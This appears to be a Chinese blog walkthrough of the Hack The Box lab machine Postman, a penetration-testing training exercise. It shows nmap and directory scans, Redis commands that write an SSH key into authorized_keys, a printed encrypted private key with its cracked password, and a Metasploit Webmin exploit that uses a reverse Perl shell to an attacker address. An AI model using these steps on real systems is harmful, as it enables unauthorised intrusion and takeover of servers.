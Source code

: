 ```yaml
---
title: Postman(Redis未授权访问)
date: 2021-12-24 11:31:17
tags: Hack The Box
categoreies: 未授权访问漏洞
---
```


## 信息收集

发现目标开放了22、80、6379等常见端口

```bash
root💀kali)-[~/Desktop/Scan-Scripts]
└─# ./nmap.sh 10.10.10.160
Starting Nmap 7.91 ( https://nmap.org ) at 2021-11-30 07:32 EST
Nmap scan report for 10.10.10.160
Host is up (0.30s latency).

PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 46:83:4f:f1:38:61:c0:1c:74:cb:b5:d1:4a:68:4d:77 (RSA)
|   256 2d:8d:27:d2:df:15:1a:31:53:05:fb:ff:f0:62:26:89 (ECDSA)
|_  256 ca:7c:82:aa:5a:d3:72:ca:8b:8a:38:3a:80:41:a0:45 (ED25519)
80/tcp    open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: The Cyber Geek's Personal Website
6379/tcp  open  redis   Redis key-value store 4.0.9
10000/tcp open  http    MiniServ 1.910 (Webmin httpd)
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 42.85 seconds
```

<!--more-->

我们访问一下web服务，发现只是一个普通的web页面而已![在这里插入图片描述](https://img-blog.csdnimg.cn/31925c3c4c634d4c8dfa4491466b77e0.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
我们模糊一下网站路径

```bash
┌──(root💀kali)-[~/Desktop/Scan-Scripts]
└─# dirsearch -u "http://10.10.10.160" -e * -x404,403,500

  _|. _ _  _  _  _ _|_    v0.4.1
 (_||| _) (/_(_|| (_| )                                                                                                                        
                                                                                                                                               
Extensions: nmap.sh | HTTP method: GET | Threads: 30 | Wordlist size: 8979

Output File: /root/.dirsearch/reports/10.10.10.160/_21-11-30_07-47-35.txt

Error Log: /root/.dirsearch/logs/errors-21-11-30_07-47-35.log

Target: http://10.10.10.160/
                                                                                                                                               
[07:47:35] Starting: 
[07:48:35] 301 -  310B  - /css  ->  http://10.10.10.160/css/                                                                             
[07:48:44] 301 -  312B  - /fonts  ->  http://10.10.10.160/fonts/                                                             
[07:48:48] 301 -  313B  - /images  ->  http://10.10.10.160/images/                        
[07:48:48] 200 -    2KB - /images/
[07:48:50] 200 -    4KB - /index.html                                                                                                 
[07:48:51] 200 -    3KB - /js/                                                                                                              
[07:48:52] 301 -  309B  - /js  ->  http://10.10.10.160/js/                   
[07:49:25] 301 -  313B  - /upload  ->  http://10.10.10.160/upload/                                                                       
[07:49:27] 200 -    8KB - /upload/                                                                          
                                                                                                                       
Task Completed
```

<!--more-->

我们发现一个upload目录，访问发现只有一些图片而已
![在这里插入图片描述](https://img-blog.csdnimg.cn/b3c145006edb4713a933104a79cae707.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
web攻击无果，那我们将注意力转移到redis数据库上，尝试是否存在未授权访问漏洞
![在这里插入图片描述](https://img-blog.csdnimg.cn/f8887a8690934a50aefef93ab24f104a.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)

## 漏洞利用

我们首先将我们的ssh-key写入到key.txt文件中
![在这里插入图片描述](https://img-blog.csdnimg.cn/30cc35f7466642ae8fc852db4f111dc6.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
再把key.txt文件内容写入redis缓存中
![在这里插入图片描述](https://img-blog.csdnimg.cn/3f83ac49ad7546059774aba3c56a198e.png)

```bash
10.10.10.160:6379> config get dir
1) "dir"
2) "/var/lib/redis"
10.10.10.160:6379> config set /var/lib/redis/.ssh
(error) ERR Wrong number of arguments for CONFIG set
10.10.10.160:6379> config set dir /var/lib/redis/.ssh
OK
10.10.10.160:6379> config set dbfilename authorized_keys
OK
10.10.10.160:6379> save
OK
10.10.10.160:6379> exit
```

我们尝试登录到该主机上
![在这里插入图片描述](https://img-blog.csdnimg.cn/795ba910f639419d8987d79f0ec483b2.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
我们上传linpeas.sh脚本到目标主机上发现，主机的/opt目录上存在一份私钥备份

```bash
redis@Postman:~$ cat /opt/id_rsa.bak
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: DES-EDE3-CBC,73E9CEFBCCF5287C

JehA51I17rsCOOVqyWx+C8363IOBYXQ11Ddw/pr3L2A2NDtB7tvsXNyqKDghfQnX
cwGJJUD9kKJniJkJzrvF1WepvMNkj9ZItXQzYN8wbjlrku1bJq5xnJX9EUb5I7k2
7GsTwsMvKzXkkfEZQaXK/T50s3I4Cdcfbr1dXIyabXLLpZOiZEKvr4+KySjp4ou6
cdnCWhzkA/TwJpXG1WeOmMvtCZW1HCButYsNP6BDf78bQGmmlirqRmXfLB92JhT9
1u8JzHCJ1zZMG5vaUtvon0qgPx7xeIUO6LAFTozrN9MGWEqBEJ5zMVrrt3TGVkcv
EyvlWwks7R/gjxHyUwT+a5LCGGSjVD85LxYutgWxOUKbtWGBbU8yi7YsXlKCwwHP
UH7OfQz03VWy+K0aa8Qs+Eyw6X3wbWnue03ng/sLJnJ729zb3kuym8r+hU+9v6VY
Sj+QnjVTYjDfnT22jJBUHTV2yrKeAz6CXdFT+xIhxEAiv0m1ZkkyQkWpUiCzyuYK
t+MStwWtSt0VJ4U1Na2G3xGPjmrkmjwXvudKC0YN/OBoPPOTaBVD9i6fsoZ6pwnS
5Mi8BzrBhdO0wHaDcTYPc3B00CwqAV5MXmkAk2zKL0W2tdVYksKwxKCwGmWlpdke
P2JGlp9LWEerMfolbjTSOU5mDePfMQ3fwCO6MPBiqzrrFcPNJr7/McQECb5sf+O6
jKE3Jfn0UVE2QVdVK3oEL6DyaBf/W2d/3T7q10Ud7K+4Kd36gxMBf33Ea6+qx3Ge
SbJIhksw5TKhd505AiUH2Tn89qNGecVJEbjKeJ/vFZC5YIsQ+9sl89TmJHL74Y3i
l3YXDEsQjhZHxX5X/RU02D+AF07p3BSRjhD30cjj0uuWkKowpoo0Y0eblgmd7o2X
0VIWrskPK4I7IH5gbkrxVGb/9g/W2ua1C3Nncv3MNcf0nlI117BS/QwNtuTozG8p
S9k3li+rYr6f3ma/ULsUnKiZls8SpU+RsaosLGKZ6p2oIe8oRSmlOCsY0ICq7eRR
hkuzUuH9z/mBo2tQWh8qvToCSEjg8yNO9z8+LdoN1wQWMPaVwRBjIyxCPHFTJ3u+
Zxy0tIPwjCZvxUfYn/K4FVHavvA+b9lopnUCEAERpwIv8+tYofwGVpLVC0DrN58V
XTfB2X9sL1oB3hO4mJF0Z3yJ2KZEdYwHGuqNTFagN0gBcyNI2wsxZNzIK26vPrOD
b6Bc9UdiWCZqMKUx4aMTLhG5ROjgQGytWf/q7MGrO3cF25k1PEWNyZMqY4WYsZXi
WhQFHkFOINwVEOtHakZ/ToYaUQNtRT6pZyHgvjT0mTo0t3jUERsppj1pwbggCGmh
KTkmhK+MTaoy89Cg0Xw2J18Dm0o78p6UNrkSue1CsWjEfEIF3NAMEU2o+Ngq92Hm
npAFRetvwQ7xukk0rbb6mvF8gSqLQg7WpbZFytgS05TpPZPM0h8tRE8YRdJheWrQ
VcNyZH8OHYqES4g2UF62KpttqSwLiiF4utHq+/h5CQwsF+JRg88bnxh2z2BD6i5W
X+hK5HPpp6QnjZ8A5ERuUEGaZBEUvGJtPGHjZyLpkytMhTjaOrRNYw==
-----END RSA PRIVATE KEY-----
```

我们将其下载到本机，并使用ssh2john.py将其哈希导出
![在这里插入图片描述](https://img-blog.csdnimg.cn/66c4d071bea24d2bb4891441037f3a8d.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
然后使用john进行破解得到密码，得到密码computer2008，登录到Matt账户
![在这里插入图片描述](https://img-blog.csdnimg.cn/40e53a09c8a549a19313e7fb22d13443.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)

## 提权root

我们访问10000端口发现是个webmin应用程序，在EDB发现存在RCE漏洞并在MSF中集成
![在这里插入图片描述](https://img-blog.csdnimg.cn/83ea6c04c24c457e896f109ef6a6cfbf.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
![在这里插入图片描述](https://img-blog.csdnimg.cn/ae16ec96fd1d44ceac7112af658419af.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
我们直接使用第二个并填写好参数后，得到root权限

```bash
msf6 > use 2
[*] Using configured payload cmd/unix/reverse_perl
msf6 exploit(linux/http/webmin_packageup_rce) > show options 

Module options (exploit/linux/http/webmin_packageup_rce):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   PASSWORD                    yes       Webmin Password
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT      10000            yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       Base path for Webmin application
   USERNAME                    yes       Webmin Username
   VHOST                       no        HTTP server virtual host


Payload options (cmd/unix/reverse_perl):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Webmin <= 1.910


msf6 exploit(linux/http/webmin_packageup_rce) > set password computer2008
password => computer2008
msf6 exploit(linux/http/webmin_packageup_rce) > set rhosts 10.10.10.160
rhosts => 10.10.10.160
msf6 exploit(linux/http/webmin_packageup_rce) > set ssl true
[!] Changing the SSL option's value may require changing RPORT!
ssl => true
msf6 exploit(linux/http/webmin_packageup_rce) > show options 

Module options (exploit/linux/http/webmin_packageup_rce):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   PASSWORD   computer2008     yes       Webmin Password
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     10.10.10.160     yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT      10000            yes       The target port (TCP)
   SSL        true             no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       Base path for Webmin application
   USERNAME                    yes       Webmin Username
   VHOST                       no        HTTP server virtual host


Payload options (cmd/unix/reverse_perl):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Webmin <= 1.910


msf6 exploit(linux/http/webmin_packageup_rce) > set username Matt
username => Matt
msf6 exploit(linux/http/webmin_packageup_rce) > set lhost 10.10.14.9
lhost => 10.10.14.9
msf6 exploit(linux/http/webmin_packageup_rce) > set ssl true
[!] Changing the SSL option's value may require changing RPORT!
ssl => true
msf6 exploit(linux/http/webmin_packageup_rce) > exploit
```

![在这里插入图片描述](https://img-blog.csdnimg.cn/6427bab560c04677b571daeed8ba6947.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
